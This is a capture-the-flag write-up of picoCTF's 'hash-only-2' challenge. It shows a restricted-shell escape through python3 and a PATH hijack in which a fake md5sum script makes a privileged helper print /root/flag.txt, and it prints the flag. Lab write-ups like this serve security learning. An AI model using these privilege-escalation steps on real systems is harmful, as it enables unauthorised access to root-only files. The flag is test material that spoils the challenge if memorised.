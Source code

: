 ## hash-only-2

Okay this actually only took one ssh session to solve. Who knew not overthinking would such a good time saver...

First, I checked what we could / could not do. Maybe we could just re-use our last exploit.
```bash
ls -l
# total 0
```

Okay so nothing is in our directory. Can we do the funny PATH manipulation?
```bash
echo '#!/bin/bash' > ~/md5sum
# -rbash: /home/ctf-player/md5sum: restricted: cannot redirect output
```

No... we're in some restricted environment. Okay so we'll have to get creative.
I found this helpful [pdf](https://www.exploit-db.com/docs/english/44592-linux-restricted-shell-bypass-guide.pdf) which outlined some common ways of getting around the restrictions.

As with all ubuntu based systems, python3 is pre-installed! We're able to get an unrestricted shell session by running
```python
import os
os.system("/bin/bash")
```

From there, I re-used the exploit from the last hash-only challenge.
```bash
ctf-player@challenge:~$ echo '#!/bin/bash' > ~/md5sum
ctf-player@challenge:~$ echo 'cat /root/flag.txt' >> ~/md5sum
ctf-player@challenge:~$ chmod +x ~/md5sum
ctf-player@challenge:~$ export PATH=~:$PATH
ctf-player@challenge:~$ flaghasher
Computing the MD5 hash of /root/flag.txt....

picoCTF{Co-@utH0r_Of_Sy5tem_b!n@riEs_797957c8}ctf-player@challenge:~$
```
